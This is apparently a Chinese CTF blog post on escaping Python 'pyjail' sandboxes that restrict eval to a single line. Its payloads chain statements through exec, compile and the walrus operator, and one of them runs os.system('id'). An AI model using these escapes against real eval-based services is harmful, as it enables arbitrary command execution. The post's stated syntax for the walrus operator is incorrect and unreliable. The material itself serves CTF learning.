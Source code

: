 ```yaml
---
title: pyjail bypass-04 绕过多行限制
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```



## 绕过多行限制
绕过多行限制的利用手法通常在限制了单行代码的情况下使用,例如 eval, 中间如果存在；或者换行会报错。
```python
>>> eval("__import__('os');print(1)")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<string>", line 1
    __import__('os');print(1)
```
### exec
exec 可以支持换行符与`;`
```python
>>> eval("exec('__import__(\"os\")\\nprint(1)')")
1
```

### compile
compile 在 single 模式下也同样可以使用 \n 进行换行, 在 exec 模式下可以直接执行多行代码. 
```python
eval('''eval(compile('print("hello world"); print("heyy")', '<stdin>', 'exec'))''')
```
### 海象表达式
海象表达式是 Python 3.8 引入的一种新的语法特性，用于在表达式中同时进行赋值和比较操作。

海象表达式的语法形式如下：
```python
<expression> := <value> if <condition> else <value>
```
借助海象表达式，我们可以通过列表来替代多行代码：
```python
>>> eval('[a:=__import__("os"),b:=a.system("id")]')
uid=1000(kali) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer)
[<module 'os' (frozen)>, 0]
```

## 参考资料
- [Python沙箱逃逸小结](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/#%E8%BF%87%E6%BB%A4-globals)
- [Python 沙箱逃逸的经验总结](https://www.tr0y.wang/2019/05/06/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93/#%E5%89%8D%E8%A8%80)
- [Python 沙箱逃逸的通解探索之路](https://www.tr0y.wang/2022/09/28/common-exp-of-python-jail/)
- [python沙箱逃逸学习记录](https://xz.aliyun.com/t/12303#toc-11)
- [Bypass Python sandboxes](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)
- [[PyJail] python沙箱逃逸探究·上（HNCTF题解 - WEEK1）](https://zhuanlan.zhihu.com/p/578986988)
- [[PyJail] python沙箱逃逸探究·中（HNCTF题解 - WEEK2）](https://zhuanlan.zhihu.com/p/579057932)
- [[PyJail] python沙箱逃逸探究·下（HNCTF题解 - WEEK3）](https://zhuanlan.zhihu.com/p/579183067)
- [audited2](https://ctftime.org/writeup/31883)
- [【ctf】HNCTF Jail All In One](https://www.woodwhale.top/archives/hnctfj-ail-all-in-one)
- [HAXLAB — Endgame Pwn](https://ctftime.org/writeup/28286)
- [Python沙箱逃逸的n种姿势](https://ctftime.org/writeup/28286)
- [hxp2020-audited](https://pullp.github.io/writeup/2020/12/26/hxp2020-audited.html)